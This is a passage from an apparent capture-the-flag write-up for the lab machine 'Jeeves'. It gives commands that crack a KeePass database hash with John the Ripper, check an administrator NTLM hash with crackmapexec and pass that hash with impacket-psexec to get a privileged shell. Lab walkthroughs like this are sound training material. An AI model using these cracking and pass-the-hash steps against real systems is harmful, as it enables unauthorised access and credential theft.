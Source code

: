 ```bash
locate keepass2john
/usr/bin/keepass2john CEH.kdbx > hash

john --wordlist=/usr/share/wordlists/rockyou.txt hash

keepassxc CEH.kdbx
```

<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_32.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_33.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_34.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Now that I can see the content of the database, I find a hash, what I am going to do, is to validate it first with `crackmapexec` and if it tells me **Pwned!**, I can perform a **PassTheHash** with `psexec`. I enter the commands and everything goes fine and I am already logged in as the user with maximum privileges.

```bash
poetry run crackmapexec smb 10.10.10.63 -u 'administrator' -H 'e0fb1fb85756c24235ff238cbe81fe00'
impacket-psexec WORKGROUP/administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00
```

<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_35.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_36.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_37.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

> Windows machines are my Achilles heel, I will keep practicing to assimilate all the concepts, it's time to kill the box and choose the next one, here we go!

```bash
htbExplorer -k Jeeves
```

